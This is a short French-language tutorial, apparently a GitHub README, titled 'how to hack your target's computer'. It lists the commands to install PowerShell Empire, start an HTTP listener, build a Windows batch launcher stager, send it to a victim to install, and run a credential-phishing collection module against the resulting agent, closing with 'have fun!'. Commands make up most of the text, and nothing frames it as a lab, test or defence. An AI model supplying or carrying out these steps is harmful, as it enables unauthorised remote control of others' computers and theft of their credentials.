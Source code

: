 # Comment pirater l'ordinateur de votre cible ?

## Video d'explication

- [iShowSpeed Gets His PC HACKED 😂](https://youtu.be/AO51eEC-Yfs)
- [How Hackers Remotely Control Any PC?!](https://youtu.be/nj1eb9KEC7s)
- [Warning! Python Remote Keylogger (this is really too easy!)](https://youtu.be/LBM3EzBXhdY)

## Prérequis

- NE FONCTIONNE PAS SUR WINDOWS
- [Kali linux](../../KaliLinux/readme.md)
- Empire [pour linux]
  - `git clone https://github.com/EmpireProject/Empire.git`
  - `cd Empire/setup`
  - `./install.sh`

## Solution

- `powershell-empire client`
  - `uselistener http`
  - `set Port 4321`
  - `execute`
  - `listeners`
  - `usestager windows/launcher_bat`
  - `set Listener http`
  - `execute`
  - envoyer `launcher_bat` à votre cible et installation sur la cible
  - `agents`
  - `usemodule powershell/collection/toasted`
  - `set VerifyCreds True`
  - `set Agent Z74L2PBU`
  - `execute`
  - amusez vous !
